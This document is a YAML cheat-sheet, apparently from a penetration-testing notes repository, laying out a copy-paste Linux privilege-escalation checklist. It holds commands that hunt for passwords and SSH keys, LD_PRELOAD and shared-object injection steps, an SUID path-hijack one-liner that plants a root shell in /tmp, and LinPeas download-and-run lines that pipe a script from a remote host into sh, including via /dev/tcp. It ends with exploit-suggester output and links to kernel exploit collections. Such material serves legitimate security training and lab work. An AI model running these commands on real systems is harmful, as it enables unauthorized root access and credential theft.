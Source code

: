 ```yaml
---
functions:
  privilege-escalation:
    - description: Simplistic and standard checklist for linux privilege escalation, in no particular order
      code: |
        Feel free to copy paste the entire listing below
        System Info Enum:
        - [ ] uname -a
        - [ ] cat /etc/issue
        - [ ] cat /etc/*-release
        - [ ] cat /proc/version
        - [ ] lsb_release -a
        - [ ] ps aux
        - [ ] lscpu
        - [ ] env
        - [ ] echo $PATH
        - [ ] sudo -l
        - [ ] hostname
        - [ ] mount
        - [ ] dpkg -l
        - [ ] cat /etc/fstab
        - [ ] ssh -V
        - [ ] /bin/lsblk
        - [ ] lsmod
        - [ ] sudo -V
        - [ ] ls -al /etc/iptables/* -R
        - [ ] ls -lah /etc/cron*        

        User Enum:
        - [ ] whoami
        - [ ] id
        - [ ] cat /etc/passwd
        - [ ] cat /etc/group
        - [ ] history

        Network Enum:
        - [ ] ip a
        - [ ] ifconfig
        - [ ] /sbin/route
        - [ ] netstat -plant

        Task Scheduling:
        - [ ] cat /etc/crontab
        - [ ] systemctl list-timers --all
        - [ ] grep "CRON" /var/log/cron.log
        - [ ] process monitoring (below script)
          https://github.com/unkn0wnsyst3m/scripts/blob/master/procmon.sh


        Password Hunting:
        - [ ] grep --color=auto -rnw '/' -ie "PASSWORD=" 2>/dev/null
        - [ ] locate pass | more
        - [ ] find / -name id_rsa 2>/dev/null
        - [ ] find . -type f -exec grep --color=auto -Hrnwie "PASSWORD" {} 2> /dev/null \;  #search specific folders

        LD_PRELOAD:
        - [ ] sudo -l  #--> is LD_PRELOAD in the sudo permissions?
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell_ldpreload.c
          gcc -fPIC -shared shell.c -o shell.so -nostartfiles

          sudo LD_PRELOAD=/home/user/shell.so <BIN IN SUDO -l>

        SUID:
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null

        SUID CHILD PATH BINARY TAKEOVER:
        strings /usr/local/bin/suid-env2
            --> /usr/sbin/service apache2 start
        function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s+x /tmp/bash && /tmp/bash -p; }
        export -f /usr/sbin/service
        execute - /usr/local/bin/suid-env2

        CAPABILITIES:
        - [ ] getcap -r / 2>/dev/null

        SHARED OBJECT INJECTION:
        - [ ] strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
            --> open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell.c
          gcc -fPIC -shared shell.c -o /home/user/.config/libcalc.so -nostartfiles

          run setuid_bin

        FILE PERMISSION SEARCHING:
        - [ ] find / -type f -perm -2 2>/dev/null | grep -v "^/proc/"                     #world writable
        - [ ] find / -user root -perm -002 -type f 2>/dev/null | grep -v "^/proc/"     #world writable ownd by root
        - [ ] ls -al $(find / -perm -1000 -type d 2>/dev/null)   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
        - [ ] ls -al $(find / -perm -g=s -type f 2>/dev/null)    # SGID (chmod 2000) - run as the group, not the user who started it.
        - [ ] ls -al $(find / -perm -u=s -type f 2>/dev/null)    # SUID (chmod 4000) - run as the owner, not the user who started it.
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null
        - [ ] find / -xdev -user root -perm -o+w -type f 2>/dev/null
        - [ ] find / -xdev -group admin -perm -o+w -type f 2>/dev/null
        

        QUICK WINS:
        - [ ] dpkg -l | grep nginx  # l.6.2 nginx (and earlier) and writable log dir with sudo suid CVE-2016-1247
          https://github.com/unkn0wnsyst3m/scripts/blob/master/nginx-CVE-2016-1247.sh
        - [ ] ps aux | grep mysqld  # running as root?
          https://mfnttps.github.io/mfnttps/mysql-code_exec/

    - description: LinPeas
      code: |
        curl http://10.10.10.10/linpeas.sh | sh
        cd /tmp; wget http://10.10.10.10/linpeas.sh && sh linpeas.sh

        sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
        cat < /dev/tcp/10.10.10.10/80 | sh #Victim

        # Output to file
        ./linpeas.sh -a > /dev/shm/linpeas.txt

    - description: Linux Exploit Suggester
      code: |
        perl linux-exploit-suggester.pl

          #############################
            Linux Exploit Suggester 2
          #############################

          Local Kernel: 2.6.32
          Searching 72 exploits...

          Possible Exploits
          [1] american-sign-language
              CVE-2010-4347
              Source: http://www.securityfocus.com/bid/45408
          [2] can_bcm
              CVE-2010-2959
              Source: http://www.exploit-db.com/exploits/14814

        ...
        ...

        Use the -k flag to manually enter a wildcard for the kernel/operating system release version.
        perl linux-exploit-suggester.pl -k 3



resources: |
  https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl
  https://github.com/SecWiki/linux-kernel-exploits
  https://github.com/lucyoa/kernel-exploits
  https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

---
```


